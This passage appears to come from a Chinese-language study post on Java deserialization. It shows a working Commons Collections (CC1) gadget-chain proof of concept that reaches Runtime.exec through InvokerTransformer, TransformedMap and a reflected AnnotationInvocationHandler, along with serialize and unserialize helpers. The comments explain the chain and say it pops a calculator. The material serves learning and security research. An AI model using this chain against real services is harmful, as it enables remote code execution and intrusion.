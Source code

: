 ```java
                new ConstantTransformer(Runtime.class),    //Runtime.class的类型是class
                new InvokerTransformer("getMethod"
                        , new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke"
                        , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec"
                        , new Class[]{String.class}, new Object[]{args})
        };

        Transformer transformerChain = new ChainedTransformer(transformers);
//        transformerChain.transform(Runtime.class);  //只需要调用一次transform

        Map innerMap = new HashMap();
        innerMap.put("value", "xxx");  //给map加了一个值,Retention类的方法是value方法。如果value改成别的就不会弹计算器了
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        //开始新的
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        declaredConstructor.setAccessible(true);
        Object obj = declaredConstructor.newInstance(Retention.class, outerMap);  // 创建一个AnnotationInvocationHandler对象
        return obj;
    }

    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream bout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(bout);
        objOut.writeObject(obj);
        return bout.toByteArray();
    }
    public static Object unserialize(final byte[] seria) throws Exception{
        ByteArrayInputStream btin = new ByteArrayInputStream(seria);
        ObjectInputStream ois = new ObjectInputStream(btin);
        return ois.readObject();
    }
}

```



其他符合条件的注解类还很多，比如Target等。

现在这版本的poc是可以弹计算器的









#### 第四个poc demo
